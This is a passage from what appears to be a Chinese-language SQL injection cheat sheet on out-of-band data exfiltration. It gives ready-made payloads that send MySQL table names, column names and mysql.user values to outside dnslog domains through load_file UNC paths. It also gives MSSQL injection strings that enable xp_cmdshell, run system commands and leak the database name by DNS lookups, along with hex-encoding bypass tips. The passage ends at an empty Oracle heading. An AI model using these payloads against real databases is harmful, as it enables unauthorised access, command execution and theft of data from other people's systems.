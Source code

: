 - 查表名

```
select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='mysql' limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```

- 查列名

```
select load_file(concat('\\\\',( select column_name from information_schema.columns where table_schema = 'mysql' and table_name = 'users' limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```

- 查数据

```
select load_file(concat('\\\\',( select id from mysql.user limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```

> **注意事项**

- 有些时候数据库字段的值可能是有特殊符号的，由于域名有一定规范，有些特殊符号是不能带入，这些特殊符号拼接在域名里是无法做dns查询的。可以用**hex编码** 将含特殊符号的数据外带出
- **char(ascii(database()))** 编码绕过

## MSSQL 数据外带

> **外带原理**

- 利用MSSQL中的xp_cmdshell存储过程执行ping命令或直接拼接DNS平台域名，发出DNS请求，再通过DNS平台查询DNS记录获取查询的数据

> **MSSQL dnslog条件**

- 开启xp_cmdshell功能

```
?id=1; EXEC sp_configure 'show advanced options',1;-- 
?id=1; RECONFIGURE;-- 
?id=1; EXEC sp_configure 'xp_cmdshell',1;-- 
?id=1; RECONFIGURE;-- 
```

- 验证xp_cmdshell功能

```sql
?id=1'; exec master..xp_cmdshell 'ping -n 10 127.0.0.1'-- 
```

> **常用payload**

- 查库名

```
?id=1;DECLARE @a varchar(1024);set @a=db_name();exec('master..xp_cmdshell "ping -n 2 ' %2b @a  %2b'.2hlktd.dnslog.cn"')-- 
?id=2;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B@a%2B'.leitu0.log.saltor.icu\\a" ');     
注：其他方式xp_subdirs xp_dirtree xp_fileexist   
```

## Oracle 数据外带
